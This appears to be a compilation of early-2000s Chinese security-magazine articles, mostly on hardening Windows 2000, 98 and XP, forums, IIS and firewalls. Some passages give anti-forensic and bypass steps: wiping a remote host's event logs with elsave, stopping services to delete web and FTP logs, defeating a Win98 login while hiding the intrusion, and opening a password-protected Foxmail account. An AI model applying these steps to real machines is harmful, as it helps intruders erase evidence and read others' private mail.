在这里，作者列举了一个日志查看方法。其余方法大致相同，且都是 GUI 操作界面，无论是操作还是查看，都比较容易。

## 安全第一

> LOOK 注意：安全日志系统默认情况下只允许管理员访问该日志；如果是 users 或 guests 组用户，就只能查看“应用程序日志”和“系统日志”。

### ■ 第四位置：

`C:\WINNT\SchedLgU.Txt`

这个位置好像是很容易被人忽略的一个位置，这其实就是大多入侵时用到最多的 Task Scheduler 服务的日志了。

不过，从这个日志的内容形式上看，我认为它的作用并不是给 Win2k 增强安全性的，而是给管理员用来做排错用的。

```text
"At2.job" (net)
已启动 2003-4-19 15:33:00
"At2.job" (net)
已完成 2003-4-19 15:33:19
结果：任务完成后的退出码是(0)。
```

从这些不难看出，日志记录了程序或命令的运行过程。但是，至于是什么程序或命令，并没有做详细记录，更不用说什么 IP 地址了。因此，对于拯救被入侵主机来说，该日志是形同虚设的。

### 三、如何删除日志

这里，这部分不做重点，简单讲解一下就好。

> LOOK 注意：删除 FTP 和 Web 日志时，要停掉相应的服务。

如果删除 Web 日志的话，记得先使用命令“net stop W3SVC”，走的时候再记得给人家把服务启动，这样就可以了。

至于删除 FTP 日志，则需要命令“net stop msftpsvc”来停止 FTP 服务。

同样，走的时候记得启动 FTP 服务，不然麻烦就大了。

至于系统日志、应用程序日志、安全日志这三个日志，推荐使用小榕的 elsave.exe，命令很简单：

```text
elsave -s \\192.168.0.1 -l "application" -C
elsave -s \\192.168.0.1 -l "system" -C
elsave -s \\192.168.0.1 -l "security" -C
```

这三个命令分别清除了 192.168.0.1 主机上的应用程序日志、系统日志和安全日志。

### 四、保护加强 Win2k 日志

从一个入侵者的角度来说，他会尽一切努力来躲避日志的记录，并在离开时会清除日志。对于一些比较高级的入侵者来说，他们还会伪造日志。为了避免这些，正确的安全策略和日志保护是必要的。

另外，针对一些没有日志记录的程序，例如我们常用到的 Terminal Service 终端，也要做一些保护，并且要给它加上日志，以便记录入侵者。

### 1、修改 Web 日志和 FTP 日志路径的方法：

打开控制面板，找到“管理工具”，在里面找到 Internet 服务管理器，打开后右击默认 Web 站点（如果你没有使用默认 Web 站点，就右击你新建的那个站点），选择属性，在“Web 站点”卡片上就可看到“启用日志记录”这一项，点“属性”（图3）。在弹出的卡片中，可以选择并制订一些日志的相关设置，在这里，“日志文件目录”下可看到当前日志的保存位置（图4），点浏览可改变日志的记录位置。

同样道理，修改 FTP 日志的方法也是如此。


### 2、修改系统日志、应用程序日志和安全日志的保存路径：

修改这三个日志的位置要修改注册表才可做到，注册表位置如下：

```text
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Eventlog
```

在这下面，可看到三个主键，分别为：Application、Security 和 System。在右边窗口中，可看到值“File”一项，它的值就是日志记录的路径（图5）。在这里，可修改到你自己喜欢的位置（喜欢是次要的，主要的是让入侵者找不到）。


虽然这三个日志的路径改变了，但如果入侵者通过终端服务登录到主机，并且他的权限是 administrators 组的权限，他还是可使用事件查看器来删除日志，因此，这样做并不一定能达到真正的安全。

### 3、加强日志——给你的文件加上审核

Win2k 在默认配置下，是没有开启审核策略的。因此，我们必须手动开启它，方法比较简单：选择“开始→运行”，输入“gpedit.msc”，打开组策略。然后依次打开“计算机配置→Windows 设置→安全设置→本地策略”，在这里找到“审核对象访问”（图6）。然后，双击打开它，将“成功”和“失败”两项都勾上（图7）。这时，我们已经激活了审核策略，我们可以去设置审核了。


接下来，并做设置审核。只有在 NTFS 格式的磁盘上才可设置审核。

在 NTFS 磁盘下，随意右键一个文件夹，然后选择属性，在里面选择“安全”卡片，点“高级”，选择“审核”，并点“添加”，在这里，选择要使用审核的用户。例如，我针对 aaa 这个用户进行审核，选择完用户后，会弹出一个详细列表，在这里，可选择成功或是失败审核（图8）。选择完要进行的审核项目后，如果需要的话，还可在上面的“应用到”项的下拉条中进行更细致的选择。选择完成后，点“确定”，来到“审核”选项卡处。在这里，如果需要该文件夹下的子对象继承这个审核，就勾选“置换所有子对象的审核项目并允许传播可继承审核项目”（图9）。


制订了审核策略后，接下来切换用户，使用 aaa 进行登录，访问刚才审核策略中添加了审核的文件夹或文件，然后再切换到 administrator 登录，查看事件查看器中的“安全日志”，这时，就可看到针对 aaa 的审核记录了（图10）。


这里，我只简单介绍了对象的审核而已。大家只要打开控制面板，选择“管理工具→本地安全策略→本地策略→审核策略”，就会发现，在这里还可开启很多安全策略和审核，例如：登录事件的审核、用户管理审核、系统事件审核等。

有兴趣的朋友可在这里开启这些审核，这样，会使你的 Win2k 变得更安全。

### 4、Terminal Service 的日志策略

正常情况下，终端服务是没有什么实质性的日志供我们查看的，只能通过事件查看器中那些少得可怜的日志内容来获得一些相关信息。

但对于捕捉入侵者来说，这些简单的信息是肯定不够的，而且，在很多情况下，我们又需要使用终端服务。因此，我们需要有完整详细的终端服务记录。记录的方法这里推荐两个：

- 使用登录脚本
- 使用个人防火墙

```bat
@echo off
rem TSlog.bat
:Tslog
date /t >> c:\winnt\system32\3389.log
time /t >> c:\winnt\system32\3389log.txt
netstat -an | find "3389" | find "ESTABLISHED" >> c:\3389log.txt
goto Tslog
```

将批处理文件保存为 TSlog.bat，然后将它放在这个路径下：`C:\WINNT\System32\GroupPolicy\User\Scripts\Logon`（这是默认的登录脚本路径）。

然后，使用 administrator 登录，选择“开始→运行”，输入“gpedit.msc”，打开组策略编辑器。选择“用户配置→Windows 设置→脚本”，然后在右边窗口中选择“登录”，双击它，然后点“添加”“浏览”，很容易就找到刚才那个 TSlog.bat 文件。这样在有用户登录时就会自动运行这个脚本，脚本作用就是记录一切与本机 3389 端口有连接的主机 IP 地址，以及连接的日期、时间，保存位置是 `C:\Winnt\System32`。

这种方法只适合在个人计算机上使用，因为必须有用户登录才会启动这个脚本。当然，在开机前也可运行这个脚本，那就是使用组策略中的计算机启动脚本。但由于这个脚本是个循环执行脚本，所以如果使用启动脚本的话，会使计算机进入无限循环状态而无法启动计算机。

Win2k 装有故障恢复控制台，否则就又修了……

针对一些小型的服务器，笔者建议使用个人防火墙。这里推荐使用绿色警戒，因为它的日志功能做得非常好，而且，如果想抓住入侵者，详细的日志也是一个必要条件。

首先，要对绿色警戒进行配置，选择“入侵检测→配置”，点击“添加”，添加上 3389 端口，对策选择“警告”，警告级别选择“提示”（图11）。这样，当有人连接终端服务时会有提示，在绿色警戒的说明框中会有显示（图12）。


就算当时没人值守，我们也可在绿色警戒安装目录下的 Log 文件夹中查看日志（图13），这样可以做到万无一失。


说了这么多，也只是冰山一角，仅仅是 Win2k 的日志管理就不止这些。所以，我们的 Win2k 并非千疮百孔，而关键还靠细心的配置。希望大家能多多动手，体会发现，我们可爱的盖茨给我们准备的 Win2k 其实是很好的东西哦！


## BBS 安全扫描

这几个月，不少网站因为论坛漏洞的原因被黑了，最近又公布了一个动网论坛的漏洞，又有一批网站要遭殃了。当然受害的不只是网站，漏洞一公布，雪莲就利用漏洞登录 python 的 ID，还替 python 在一棵菜论坛发了一篇征婚启示，这都怪我没有及时打补丁。关于利用这个漏洞的文章教材有很多，本期杂志就有相关文章，甚至还有人写了动画教材呢！

我在这里不是教大家怎么去黑论坛，而是说说论坛安全方面的东西。不过，要堵住黑客入侵，就得知道黑客是怎么入侵的？知己知彼，百战百胜嘛！下面我们来简单了解一下入侵的步骤！

### 一、入侵原理

首先，黑客会利用论坛漏洞得到管理员的密码（经过 MD5 加密的），然后利用破解器工具把经过 MD5 加密的密码破解为真正的密码。有了密码，论坛的数据库就悬了，黑客可以删帖子、更改用户权限等。如果管理员登录后台的资料和前台一样，那问题就更大了。黑客就可更改你的论坛配置，这时受害的就不只是论坛的用户和帖子了。他们会更改允许上传文件的类型，设置成允许上传 asp、exe 文件，然后再上传一个 ASP 木马和后门程序，再用 ASP 木马运行后门程序。这样一来，黑客就可控制这个论坛所在的主机了。

不过，文章开头提到的雪莲登录 python 发征婚帖子案例，雪莲并没有用破解器工具破解出 python 的密码，只是修改了 cookie。不知道真正的密码也可登录论坛。因此，从得到 MD5 加密的密码到有权删除论坛东西所需的时间很短。这是不是很可怕啊？为方便我们分析，我特意画了一幅图（图1）。


### 二、防范措施

由图1我们可清楚地看到从“得到经过加密的密码”到“控制主机”之间的每一步都是串连的。因此，我们只要堵住其中一步，黑客就进不了主机。我们也明白黑客能控制的地方越多，我们的网站、主机就越危险。所以，我们有必要对每一环节进行配置。下面，笔者就对每一环节进行分析、配置。

- 1. 我们当然希望论坛程序本身漏洞少一点。但天下没有完美的东西，没有程序不存在 BUG。我们能做的只是经常看看最新公布的漏洞，尽快给自己的论坛打上补丁。还有就是尽量少给论坛加些插件，BUG 的多少和程序的大小是成正比的，程序大了漏洞就多了，而且论坛文件也不好管理。加了插件，每次打补丁都得自己再改些东西，比较麻烦也比较危险。
- 2. 这一步我们除了把自己的密码设置复杂些外，其他就做不了什么。当然，你最好少得罪黑客！
- 3. 很多论坛管理员比较懒，为方便记忆，他们把登录后台用户名和密码设置成和登录前台一样。这样一来，黑客一旦得到了前台的登录密码，就可轻松控制整个论坛，甚至控制论坛所在的服务器！所以，你还是勤快点，把登录后台的资料改了吧！
- 4. 如果黑客登录了你的论坛后台后，可就很惨了。黑客马上要修改你的论坛上传设置，准备上传工具了，你该怎么办呢？……（核心思路：让 ASP 木马运行不了，例如通过目录与脚本执行配置隔离来阻断）

我们都知道 ASP 文件得在 ASP 环境下才能运行，如果服务器不支持 ASP 脚本，那他传一百个木马也控制不了你的网站！我们的论坛需要支持 ASP 脚本，而上传的文件夹却不要它支持任何脚本，这该怎么办呢？很简单，建一个虚拟目录就可以了！慢慢来，看我怎么做的！

先把原来的上传目录 UploadFile 改成其他名字（复杂些，防止别人猜到），然后在 BBS 文件夹下建一个 UploadFile 的虚拟目录，别名填 UploadFile，虚拟目录指向你刚才已更名的上传目录。这里，作者示例将其指向改名后的目录（图3）。


下面，我们对虚拟目录属性进行设置，这是关键的一步。只要去掉“运行脚本”前的勾就可以了（图4）。


图4

OK 了！你可给其他上传文件的目录建立虚拟目录。这样一来，你的网站就会安全些。就算别人黑了你的论坛，也不会危害到其他东西……

依我试，笨的办法不一定不实用哦！你可以删除一些不用的功能，比如数据库备份、清空论坛……不过得懂一些 ASP 知识……聪明的菜鸟一定会说，那干脆把登录后台的页面给改了……

- 5. 即使黑客上传了 ASP 木马和后门，他们也不能控制主机，特别是虚拟主机……

其实，以上的一些方法可以应用到别的地方，比如文章系统……我想经过以上的配置，你的论坛一定安全多了。

同伴们的电脑越来越多，为了资源共享，当然也为了诱人的联网游戏……下面就开始我们的侦察吧。

## 谁在动我的奶酪

### 徒手作战

如果你一无所有，没有什么工具。那我就告诉你，没有工具也行，我们的爱机毕竟还是和我们亲嘛！你需要做的只有两步。


图1

第一步，把你那个与局域网卡相连的连接拖到任务栏中……会看到“连接后在任务栏中显示图标”这个可选项（图1）（图2）。


图2

这个“神”会在别人访问你资源时通知你……第二步，运用你学会的网络命令去找到这个与你相连接的人。首推 `netstat -v`。……“-a”显示所有 socket，“-n”以 IP 地址代替名称，“-t”显示 TCP 连接情况。

### 一查到底

前提得去下载一个工具，名叫 netblock pro……这个工具有很好的兼容性，支持 WIN9x/NT4.0/2000/XP，可控制一切来自局域网和 Internet 上的访问……

## 安全第一

这个软件主要由两个部分构成：一个是 manager；另一个是 agent。agent 在计算机的启动栏中显示，并且对连接到共享资源的用户予以控制。当一个用户连接到任何一个共享资源时，agent 将弹出一个消息窗口，发出警报，图标开始闪烁，并且把这个消息记录到任务栏中。manager 让你控制计算机的共享资源。在 manager 中有三种控制模式（图3）。


- 1. 显示所有共享资源的状态。在这里你可添加、删除任意一个共享资源，还可对任何一个共享资源进行隐藏和修改权限。
- 2. 显示连接到共享资源的用户信息。在这里可控制任何一个访问你的用户。
- 3. 显示被连接的资源状态。你可关闭任何一个用户打开的资源。

有了上面三种工作模式，相信你一定可对爱机的输出有个完美的控制方案。安装这个软件并运行后，如果别人再次访问我们的爱机，将会听到一个悦耳的声音，并弹出一个对话框（图4），告诉我们谁正在分享我们的奶酪。


我们不仅知道是哪台计算机在访问我们，还知道是哪个用户在访问我们的什么资源，够详细吧！更重要的是，我们可决定是否允许别人动我们的爱机，其中第一个哭丧着的脸表示不允许这个用户访问我们的这个资源，第三个关闭的符号代表你已经知道并允许这个用户访问这个资源。其实，我认为这个工具更好的地方是可把所有访问情况记录下来，并保存在日志文件中，供日后参考。


## Windows 服务器的“菜”鸟安全设置


对于网站服务器，安全可谓至关重要！一个网站不管做得再漂亮、功能多强大，如果安全性太差，轻易就被黑客攻破的话，那一切都将付诸东流，还可能造成极坏的影响，甚至引发纠纷。现在网上很多服务器所用的都是 Windows 系统，由于 Windows 功能繁多、系统庞大，所以存在着许多 BUG 和漏洞。特别是对于系统的默认安装设置，存在着极大的安全隐患。当然，Windows 本身也为我们提供了很强大的安全防范机制。其实，只要掌握一些 Windows 的基本安全设置，就能抵挡住 80% 的黑客入侵。下面，笔者就讲解一下 Windows 的基本安全设置。

### 一、IIS 的安全设置

首先，删除默认目录并重新规划 WEB 主目录；然后在 IIS 管理器中调整主目录指向。其次，应用程序配置中删除不必要的映射，仅保留实际需要类型；并在 IIS 管理器中配置日志、应用程序映射等。最后，可使用 IIS 的备份功能保存当前安全配置，以便恢复。

### 二、账号安全

账号安全很重要，网络上有很多入侵都是利用了弱密码账号造成的。应禁用来宾账号，设置复杂密码，尤其是管理员权限账号；并避免使用默认 administrator 名称。


### 三、目录和文件权限

仅给用户真正需要的权限，遵循最小权限原则。服务器建议使用 NTFS 分区，以获得更好的安全控制。目录和文件权限可分为读取、写入、读取及执行、修改、列目录、完全控制等。默认情况下，Everyone 组可能具有较高权限，需按需调整。可在文件属性的“安全”中进行设置；权限分配中拒绝优先于允许，用户属于多个组时应综合组权限结果。

### 四、进行端口过滤

端口是计算机与外部网络沟通的逻辑接口，配置是否合理直接影响主机安全。建议只开放必要端口，关闭不使用端口。可在网卡属性中进入 TCP/IP 高级设置并启用筛选，添加需要开放的端口（如 80、21 等），保存后重启生效。

### 五、本地安全策略设置

可在“开始”菜单中通过“程序→管理工具→本地安全策略”进入（也可由控制面板进入管理工具）。根据实际需求进行本地安全策略与 IP 安全策略配置。文末说明以上为 Windows 服务器基本安全设置，供网管参考。

## 反黑精英 BlackICE

一说到防火墙，相信大家都会想到国产的“天网”防火墙。关于天网的使用和技巧以前给大家介绍过了，这次我给大家介绍一款在国外也很有名气的防火墙——BlackICE。

### 一、软件介绍

可能国内许多人对这个防火墙还比较陌生，但这个软件在九几年获得了 PC Magazine 的技术卓越大奖。对于没有防火墙的家庭用户来说，BlackICE 是一道不可缺少的防线；对于企业网络，它又增加了一层保护措施。它并不是要取代防火墙，而是阻止企图穿过防火墙的入侵者。该软件集成了强大的检测和分析引擎，可识别多种入侵技巧，能够监测端口和协议、拦截可疑入侵，资源占用率较少，稳定性也较好。

### 二、菜单介绍

打开 BlackIceV3.5 的工作界面，可以看到简洁界面，采用参数设置对话框形式，三个选项分别如下。


#### Events

- `Time`：显示黑客攻击的具体时间
- `Event`：显示攻击类型
- `Intruder`：显示攻击者的 IP 地址或主机名
- `Count`：显示黑客的攻击次数


#### Intruders

记录攻击者的详细信息。可在 Intruder 标签下查看入侵者资料，如 IP 地址等（文中举例提到多个入侵者记录）。


#### History

该标签页面可以图表方式清楚查看当前总受攻击次数以及网络信息流量状况，并可选择软件监测时间周期。


### 三、软件设置说明

在软件菜单栏中，除基本复制/粘贴命令外，可在 View 菜单的 Filter by event severity 中按严重程度查看事件（从红到绿递减）。


打开 Tools 菜单，选择 Edit BlackICE Settings，进入设置界面。由于选项较多，文中挑选了较重要的选项说明。


#### FireWall

在这里可设置防火墙安全级别，级别从“Paranoid”到“Trusting”递减；还可设置是否允许与 Internet 共享文件及网络邻居等。

#### Intrusion Detection

这个菜单非常重要，在这里可设置许多防火墙规则。软件默认的规则只有一个，我们可点击“Add”按钮，出现图7的窗体。在“Address to Trust”里我们可添加值得信任的 IP 地址，选择“All”表示信任所有 IP 地址。否则在文本框中输入可信任的 IP 地址，选择上“Add Firewall Entry”，然后点击“Add”按钮。那么，以后这个 IP 与本计算机的连接事件则视为正常事件。


图7

在“Events to Ignore”里，我们可选择要忽略的事件。如果选择了“All”，则表示忽略所有事件。否则，我们可在下拉菜单里选择自己想要忽略的事情，例如图7中的“Finger List”，则表示忽略别的计算机使用 Finger 命令列举本地计算机的用户列表这个事件，至于那个 ID 号软件会自己加上的。当然，要做到保护自己的计算机，我们还是尽量不要忽略事件的好。这里可定义的事件非常多，这也就是为什么 BlackICE 号称可以识别 200 多种入侵技巧的原因了，具体可按照个人的不同情况来定义各种不同的防火墙规则。

#### Communications Control

在这里，如果选择了“Enable Application Protection”，则软件会自己扫描你计算机上的所有应用程序，然后你可在这里选择授权可访问网络的程序。而在“When an unauthorized application attempts to access the network”中，我们可设置当其他未受许可的程序想要对网络进行访问时，会对它进行什么样的操作，其中包括中止程序的运行等。如图8。


图8

#### Application Control

这里我们可控制所有允许在计算机上的程序。如果选择了“Enable Application Protection”，跟上面的选项一样，软件自动列出计算机所有程序的列表。在“When unknown application launches”和“When a modified application launches”里面，我们分别可设置当一个未知程序加载时和当一个修改的应用程序加载时触发的事件，同样有允许中止程序等选项。

#### Notifications

这里我们设置当不同安全级别的事件发生时，是否显示出来。默认的是当有危急、严重和可疑事件时都显示出来。同时，我们还可为不同的安全等级设置不同的声音来提醒我们。另外，我们还可在这里设置定时检测软件的更新，看看有没有最新版本出来。

### 四、软件的高级设置

选择“Tools”菜单的“Advanced Firewall Settings”，会出现图9所示的窗口。在该窗口中，我们可阻止远程计算机对本地计算机各个端口的连接（如常见的 21、139、3389 端口）等。


图9


图10

举个例子，如果我们想阻止所有远程计算机对本机 3389 端口的连接。那么可点击“Add”按钮，在弹出窗口的“Name”中输入“阻止3389连接”，再选择“All Addresses”（表示要阻止所有远程计算机的连接），在“Port”中输入“3389”（表示要阻止连接的端口是 3389）。在“Type”中选择“TCP”，“Mode”选择“Reject”（表示拒绝连接），“Duration of Rule”选择“Day”（表示这个防火墙规则的有效时间为一天）。最后点击“Add”按钮便可以了，如图10所示。当然，如果我们只是想阻止特定 IP 地址的 3389 连接，那么不选择“All Addresses”，而在“IP”文本框中输入要阻止对方的 IP 地址就可以了。

### 五、后记

毫无疑问，BlackICE 是一款极出色的防火墙软件，大家不妨试试！最后说一声，为系统安装一个好用的防火墙来保护计算机固然是好，但千万不要以为自己的电脑装了防火墙就真的非常安全，掉以轻心！毕竟，防火墙也是一个程序，没有哪个防火墙可以保证自己的程序没有 BUG。而且，许多技术高超的黑客都可利用一些技巧来突破你的防火墙，进入你的系统，这决不是危言耸听！所以，提醒大家一句，防火墙只是系统防御的外功，提高自身的网络安全意识和技术水平，才是百战不殆的内功！


## 让 Windows98 登录更安全

Win98 的安全始终是一大难题，也是广大电脑爱好者关注的话题。最近看了些这方面的文章，有所启发，决定写这篇文章给和我一样的菜鸟朋友。

Win98 系统默认的登录方式安全性差，虽然你可通过设置开机密码或第三方软件来改善这一状况，但有没有不通过第三方软件，利用 Windows98 系统自身来改善这一状况呢？答案是肯定的。下面，我将尝试三种方法。

### 1. 古老的方式

- 1. 编辑 `C:\Autoexec.bat`，输入 DOS 命令（如图 1 所示）。
- 2. 重启后会在自检后要求输入指定字符（例如 `*`）才能进入。
- 3. 若需恢复，可进入纯 DOS 删除自动批处理中的相关命令或删除 `autoexec.bat`。


```bat
cd\
type autoexec.bat
```

也可用 `del autoexec.bat` 命令删除自动批处理文件，重启即可进入系统。

### 2. 巧妙的方法

实现方法：利用 WinRAR 的自解压功能，结合批处理与系统启动调用机制实现“伪 Explorer”加密启动。

```text
C:\Windows\Explorer.exe
```

- 1. 建立批处理文件 `logon.bat`。
- 2. 修改其属性并在同目录生成快捷方式。
- 3. 将相关文件加入压缩包，设置“创建自释放格式文件”“释放后运行 `logon.bat`”。
- 4. 生成 `Explorer.exe` 并移动到 `C:\` 根目录，重启测试效果。


解释：Windows 启动时会优先在安装目录（`C:\`）查找并调用 `Explorer.exe`，利用该机制可先执行自定义流程再进入真正的 Explorer。破解方式是进入纯 DOS 删除伪 `Explorer.exe`。

### 3. 标准的方法

这种方法较前两种更“正规”，通过注册表把 Win98 登录方式切换为“Microsoft 友好登录”。

- 1. 右击“网上邻居”→属性，将登录方式改为“Microsoft 友好登录”（如图4）。
- 2. 在“运行”输入 `regedit`，定位到 `HKEY_LOCAL_MACHINE\Network\Logon`，新增 DWORD 值并配置相关参数（如图5）。
- 3. 新增 `MustBeValidated`，并将此键的值改为 1（图5）。
- 4. 为了更好地显示出“友好登录”优点，我们打开“控制面板→用户”，添加一个新用户（如 clong），并设置密码。


好了，一切改动完成，重新启动计算机后，登录窗口出现了“友好登录”界面，从列表中选择你想用来登录的用户名，这时你必须输入密码才能进入系统；如果按“取消”则会出现错误提示（图6），怎么样，是不是很有趣呢？


破解：这一部分想必许多人兴奋不已。下面我将介绍这招的破解方式，并解释机关原理。

首先，我们知道 Win98 将用户的各种密码都秘密保存在 PWL 文件中，因此，我们可启动机器进入 DOS，用命令 `Deltree C:\Windows\*.PWL` 删除密码文件。这样我们进入系统时不会再要求输入密码。

这种方法简单是简单，但是不安全，别人知道你进入过他的电脑，下面介绍另一种相对复杂但却安全的方法。

“解铃还需系铃人”，既然你可以用注册表锁住，我也可以用注册表打开！重新启动计算机，并进入纯 DOS，用命令 `regedit /e C:\unlock.reg HKEY_LOCAL_MACHINE\Network\Logon` 导出注册表中 Logon 的关键分支到文件 `C:\unlock.reg`。再对这个文件进行编辑，用命令 `edit C:\unlock.reg` 即可。好了，你已经看到这个文件的内容了，将其中的 `"MustBeValidated"=dword:00000001` 改为：`"MustBeValidated"=dword:00000000`，保存文件，输入命令 `regedit c:\unlock.reg`，将改动后的注册表文件引入。

OK！输入 Win 引导系统进入 Windows，你会发现这时可直接“取消”进入系统了。这种方法的好处在于你进入系统后，重新改动此 unlock.reg 文件的相关键值，这样别人就不容易知道你用过他的电脑了。

### 4. 总结

可以看出，上述几种方法无论是哪一种，都较容易实现又容易破解，不过你可辅以其他措施，以达到较好的效果（如禁止从软盘启动，禁止热键开机等）。

相信通过以上步骤，你的 Win98 的本地安全将得到很大提高。


今天给大家带来一篇菜鸟教程，主要为大家讲述如何关闭系统中的端口。

在没开始正题之前，先给大家介绍一下系统端口分类。

### 一、端口分类

端口分为周知端口和动态端口两种。

#### 1. 周知端口

周知端口是众所周知的端口号，范围从 0 到 1023，比如说 FTP 就利用的 21 端口，Web 服务利用的是 80 端口，SMTP 利用的是 25 端口，POP 利用的是 110 端口，NetBIOS 利用的是 139 和 445 端口……以上这些都属于周知端口。

#### 2. 动态端口

动态端口的范围是从 1024 到 65535。之所以称为动态端口，是因为它一般不固定分配某种服务，而是动态分配。动态分配是指当一个系统进程或应用程序进程需要网络通信时，它向主机申请一个端口，主机从可用的端口号中分配一个供它使用。当这个进程关闭时，同时也就释放了所占用的端口号。

### 二、怎样查看开放端口

- 方法有两种：
- 1. 借助系统自带的命令，在 Win2000/XP/Server2003 中查看端口的命令为：`netstat -an`，图1是我的系统所开放的端口。
- 2. 借助第 3 方软件查看系统端口开放了哪些端口，这里给大家介绍一款较优秀的程序——Active Ports。


看了图1是不是一目了然？自己开放了哪些端口只需要一个命令就搞定。

Active Ports 是 SmartLine 出品的，可用来监视电脑所有打开的 TCP/IP/UDP 端口，不但可将你所有的端口显示出来，还显示所有端口所对应程序的所在路径、本地 IP 和远端 IP（试图连接你的电脑 IP）是否正在活动。图2是 Active Ports 侦测到的我系统所开放的端口。


是不是很直观？不光可看到自己的系统都开放了哪些端口，还可看到是哪些程序开放的端口。程序的所在路径都非常清楚，简直就是一个字“强”！利用这个工具分析木马最好不过了。

### 三、关闭端口

最近微软漏洞频繁，有些都是系统本身引起的。比如前些日子的 RpcLocator 就是系统开放的 3268 端口和 NetBIOS 引起的。还有就是最近热火朝天的 rpc135 溢出，就是系统的 135 端口造成的。开放这些端口是非常危险的，这些端口都是黑客的最爱。

比如 135 和 445 端口，黑客可通过 `net use \\ip\ipc$` 命令来直接利用 NetBIOS 进入系统。再比如 3268，黑客可直接利用现成的程序溢出拿到 System 权限。最近的 135 端口溢出也是一样。

想要防止被黑就要关闭这些危险端口，以下就是几种办法：

#### 图1. 通用篇（适用系统 Win2000/XP/Server 2003）

最近我在论坛看了些文章，发现大家都有一个误区，就是哪个端口出现漏洞就关闭哪个端口。其实这样是不能保证系统安全的，正确的方法应该是先了解清楚自己需要开放哪些端口，了解完后把不需要的端口统统关闭掉，这样才能保证系统的安全性。

比如说你的电脑是一台服务器，服务器需要有 Mail Server 和 Web 服务，还要有 FTP 服务，只需要开放 21、25、80、110 就足够了，其他的应该全部关闭。

关闭的方式是：执行“我的电脑→控制面板→网络和拨号连接→本地连接→点右键→属性”（图3），然后选择 Internet（TCP/IP）属性，弹出图4所示的窗口。


再选择“高级→选项”，选择“TCP/IP 筛选”，单击属性（图5）。

在这里分为 3 项，分别是：TCP、UDP、IP 协议。假设我的系统只想开放 21、80、25、110 这 4 个端口，只要在 TCP 端口上勾选“只允许”，然后依次把这些端口添加到里面（图6）。


最后点“确定”。需要注意的是：修改完以后，系统会提示重新启动，重新启动才会生效。系统重启后，只会开放刚才选中的那些端口，其他都不会开放。

#### 图2. 利用系统自带防火墙关闭端口（适用系统 WinXP/Server 2003）

微软出了 XP 以后，操作系统本身都自带有防火墙。这可是个好东西，用它可关闭掉不需要的端口。实现步骤也很简单。


具体设置如下：执行“控制面板→网络连接→右击‘本地连接’→属性→高级”，出现图7所示窗口。勾选“Internet 连接防火墙”下的复选框，然后单击“设置”，出现图8所示窗口。

假设关闭 135 端口，就点图8中的“添加”，出现图9所示的窗口。把什么都填好以后，一路“确定”就可以了，防火墙就自动启动了。

启动后本地连接图标会出现一个可爱的小锁头（图10）。


以上就是利用系统本身自带防火墙关闭端口的方法。注意：只对 XP 和 Server 2003 有效。如果想关闭不需要的所有端口，请参见上面的“通用篇”。

当然，有条件的朋友还可使用第三方防火墙来关闭端口。由于篇幅有限，我就不一一介绍了。

最后强烈建议所有使用 Win2k 或 XP 的用户马上关闭 135 端口，最新的漏洞可利用这个端口攻击服务器，夺取权限！

## 老狐独闯 HCU 之超愚

——Foxmail 4.2 简体中文版漏洞测试

Foxmail 是最常用的 E-mail 收发工具之一。在 Foxmail 中可以为不同使用者建立不同的帐户，并且每个帐户可设置自己的口令来保护自己的信箱。

熟悉 Foxmail 的朋友大概都知道，在 Foxmail 4.0 以及以前的一些版本中存在着一个不需要任何工具就可以绕过帐户口令进入邮箱的安全漏洞，这是 Foxmail 几个本地漏洞中危险最大的一个。但据说 Foxmail 4.1 以上版本就修正了这个安全漏洞。

想成为一个黑客的人是不会轻易相信没经过自己实践的结论的，所以今天我就去网上拉了一个 Foxmail 的最新版本 Foxmail 4.2 简体中文版来测试一下到底该漏洞还存在不存在。接下来就让我们一起开始吧。

安装好 Foxmail 后，建立一个帐户 ypy，并且给这个帐户设置访问口令，如图1所示。


点击“访问口令”后弹出口令设置对话框，如图2所示。


设置好口令后，重新启动 Foxmail，单击 ypy 帐户名，弹出询问口令对话框，如图3所示。好了，到现在，帐户 ypy 已经受密码保护了，原则上应该没有密码是不能访问帐户 ypy 的信箱了。

接下来是检验一下可否绕过帐户口令进入邮箱查看邮件内容，就是不用我们刚才为帐户 ypy 设置的密码来访问 ypy 的邮箱。好，那么我们继续。


在“帐户”菜单里面选择新建立一个帐户，如图4所示。帐户名随便取什么都可以，这里就取 pass，如图5所示。我们是想进入帐户 ypy 的邮箱，所以接下来要设置的 POP3 服务器和 SMTP 服务器，也就是 E-mail 设置必须和帐户 ypy 是一样的，如图6所示。

### 建立新的用户帐户


### 指定邮件服务器


帐户 pass 建立完成后，不要设置密码，单击帐户名 pass 就可以看见帐户 pass 的所有信箱，如图7所示。


OK，现在退出 Foxmail。打开资源管理器，找到 Foxmail 的安装文件夹，默认一般是 `C:\Program Files\Foxmail`。打开其下的 mail 文件夹，里面有两个文件夹名字分别为 ypy 和 pass，也就是两个以帐户名命名的文件夹。打开 pass 文件夹，里面有个文件 Account.stg，如图8所示。


图8

把文件 Account.stg 复制到文件夹 ypy 下，并确认覆盖文件夹 ypy 下原有的文件 Account.stg，如图9所示。


图9

完成后重新运行 Foxmail，点击原先设置了密码的帐户 ypy，已经不再询问口令就可以打开帐户了，里面的各信箱一览无余，如图10所示。


图10

测试到此就结束了，结论是 Foxmail 4.2 简体中文版仍然有绕过帐户口令进入邮箱的安全漏洞。看来真是老狐狸旧疮难愈啊。

以上测试过程所用的方法中把原来帐户 ypy 设置的密码消除了，其实还有一种方法可以不消除密码也打开帐户 ypy，大致过程如下：

- 1. 运行资源管理器，找到 `...\Foxmail\mail\ypy\` 目录下的文件 `Account.stg`，然后把它删除到“回收站”；
- 2. 运行 Foxmail，帐户 ypy 已经不需要密码就可以打开了；
- 3. 退出 Foxmail 后，将“回收站”里的文件 `Account.stg` 还原，出现确认文件替换对话框，选择“是”按钮；
- 4. 再运行 Foxmail，单击帐户 ypy，又弹出密码确认对话框了。

看了上面的测试过程，那些在多人共用的电脑上有 Foxmail 帐户的朋友是不是急了啊？呵呵，想想看，你的情书，那些你和女朋友或者男朋友的甜言蜜语说不定现在就在被你的同事朗诵呢。那么怎么来保护我们的邮件呢？在这里我说几点建议：

- 1. 如果你用 Foxmail 在公共环境下（譬如说网吧）收取邮件，写过后把有用的保存好（譬如放在你申请帐号的邮件服务器上），然后删除帐户所对应的文件夹。
- 2. 如果你想在办公室或者集体宿舍公共电脑上建立 Foxmail 帐号，那么信箱的路径不要选择默认的，应该选择一个比较隐蔽的地方，譬如 `C:\Windows(WINNT)\repair\` 目录下，然后再给你的帐号加上口令，那么别人就不能轻易找到你的 `Account.stg` 文件了。
